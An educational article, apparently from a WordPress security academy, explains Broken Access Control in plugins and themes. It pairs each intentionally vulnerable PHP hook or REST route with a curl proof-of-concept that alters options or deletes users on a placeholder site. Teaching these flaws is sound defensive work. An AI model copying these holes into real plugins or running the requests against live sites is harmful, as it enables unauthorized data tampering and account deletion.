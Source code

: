 ```yaml
---
title: Broken Access Control
head:
    - tag: title
      content: Learn about Broken Access Control
contributors:
    - rafiem
    - dhakalananda
---
```




## Introduction

This article covers cases of possible Broken Access Control on WordPress. This includes improper hook/function/code usage inside the plugin/theme, which can be used to access or update sensitive information.

By default, processes on hooks or functions that are used on plugins or themes don't have a permission and nonce value check, that's why the developer needs to manually perform a permission check using [`current_user_can`](/academy/wordpress/wordpress-internals/functions/#current_user_can) function and the nonce value check using [`wp_verify_nonce`](/academy/wordpress/wordpress-internals/functions/#wp_verify_nonce), [`check_admin_referer`](/academy/wordpress/wordpress-internals/functions/#check_admin_referer) or [`check_ajax_referer`](/academy/wordpress/wordpress-internals/functions/#check_ajax_referer) functions.

<LinkCard
  title="Learn how to secure your code against Broken Access Control"
  href="/academy/wordpress/securing-code/broken-access-control/"
/>

## Insecure Direct Object Reference

Insecure Direct Object Reference (IDOR) is one of the vulnerabilities caused by broken access control. It involves changing any entity's ID to another that a user is not supposed to access.

For example, if a page views orders by order ID in the URL using the `?order_id=X` parameter, and the user can just change the order ID to view another user's order details, it is an IDOR.

## `init` hook

For more details on the `init` hook, please refer to this [documentation](/academy/wordpress/wordpress-internals/hooks/#init-hook).

Example of vulnerable code:

```php
add_action("init", "check_if_update");

function check_if_update(){
    if(isset($_GET["update"])){
        update_option("user_data", sanitize_text_field($_GET_["data"]));
    }
}
```

To exploit this, an unauthenticated user needs to visit the front page of a WordPress site and specify the parameter to trigger the `update_option` function, which in this case will modify sensitive information.

```bash
curl <WORDPRESS_BASE_URL>/?update=1&data=test
```

## `admin_init` hook

For more details about the `admin_init` hook, please refer to this [documentation](/academy/wordpress/wordpress-internals/hooks/#admin_init-hook).

Example of vulnerable code:

```php
add_action("admin_init", "delete_admin_menu");

function delete_admin_menu(){
    if(isset($_POST["delete"])){
        delete_option("custom_admin_menu");
    }
}
```

To exploit this, the unauthenticated user needs to perform a POST request to the `admin-ajax.php` and `admin-post.php` endpoints, specifying the needed parameter to trigger the `delete_option` function to remove sensitive data.

```bash
curl <WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=heartbeat -d "delete=1"
```

## `wp_ajax_{$action}` hook

For more details on the `wp_ajax_{$action}` hook, please refer to this [documentation](/academy/wordpress/wordpress-internals/hooks/#wp_ajax_action-hook).

Example of vulnerable code:

```php
add_action("wp_ajax_update_post_data", "update_post_data_2");

function update_post_data_2(){
    if(isset($_POST["update"])){
        $post_id = get_post($_POST["id"]);
        update_post_meta($post_id, "data", sanitize_text_field($_POST["data"]));
    }
}
```

To exploit this, any authenticated user (**Subscriber+** role) just needs to perform a POST request to the `admin-ajax.php` endpoint specifying the needed action and parameter to trigger the `update_post_meta` function to update arbitrary WP Post metadata.

```bash
curl <WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=update_post_data&update=1 -d "id=1&data=changed"
``` 

## [`wp_ajax_nopriv_{$action}`](https://developer.wordpress.org/reference/hooks/wp_ajax_nopriv_action/) hook

For more details on the `wp_ajax_nopriv_{$action}` hook, please refer to this [documentation](/academy/wordpress/wordpress-internals/hooks/#wp_ajax_nopriv_action-hook).

Example of vulnerable code:

```php
add_action("wp_ajax_nopriv_toggle_menu_bar", "toggle_menu_bar");

function toggle_menu_bar(){
    if ($_POST["toggle"] === "1"){
        update_option("custom_toggle", 1);
    }
    else{
        update_option("custom_toggle", 0);
    }
}
```

To exploit this, any unauthenticated user just needs to perform a POST request to the `admin-ajax.php` endpoint specifying the needed action and parameter to trigger the `update_option` function.

```bash
curl <WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=toggle_menu_bar -d "toggle=1"
``` 

## `register_rest_route` function

For more details on the `register_rest_route` function, please refer to this [documentation](/academy/wordpress/wordpress-internals/functions/#register_rest_route-function).

Sometimes, developers don't implement a proper permission check on the custom REST API route and use the `__return_true` string as the permission callback. This makes the custom REST API route publicly accessible.

```php
add_action( 'rest_api_init', function () {
  register_rest_route( 'myplugin/v1', '/delete/author', array(
    'methods' => 'POST',
    'callback' => 'delete_author_user',
    'permission_callback' => '__return_true',
  ) );
} );

function delete_author_user($request){
    $params = $request->get_params();
    wp_delete_user(intval($params["user_id"]));
}
```

To exploit this, any unauthenticated user just needs to perform a POST request to the `/wp-json/myplugin/v1/delete/author` endpoint specifying the needed parameter to trigger the `wp_delete_user` function.

```bash
curl <WORDPRESS_BASE_URL>/wp-json/myplugin/v1/delete/author -d "user_id=1"
``` 

Other cases could exist where developers already specify a proper function on the `permission_callback` parameter; however, the permission check implemented inside the function itself is not proper for what process can be done from the REST API route `callback` function.

## Nonce leakage

In the case when an action is only protected by a nonce instead of a permission check, there is a chance that the nonce might be leaked to low-privileged users. It can lead to broken access control issues in such cases.

```php
add_action('wp_enqueue_scripts', function() {
    wp_register_script('insecure-demo', false);
    wp_enqueue_script('insecure-demo');
    wp_localize_script('insecure-demo', 'insecureDemo', [
        'ajax_url' => admin_url('admin-ajax.php'),
        'nonce'    => wp_create_nonce('delete_user_nonce'),
    ]);
});

add_action('wp_ajax_nopriv_delete_user', function() {
    $nonce   = $_POST['nonce'] ?? '';
    $user_id = $_POST['user_id'] ?? 0;

    if (!wp_verify_nonce($nonce, 'delete_user_nonce')) {
        wp_die('Invalid nonce');
    }

    if (wp_delete_user($user_id)) {
        echo "User $user_id deleted";
    } else {
        echo "Failed to delete user";
    }

    wp_die();
});
```

To exploit this, an unauthenticated user can grab the nonce from the WP site homepage source and perform a POST request to the `/admin-ajax.php` endpoint with the nonce parameter to trigger the `wp_delete_user` function.

```bash
curl <WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=delete_user -d "nonce=nonce_from_page_source&user_id=1"
``` 
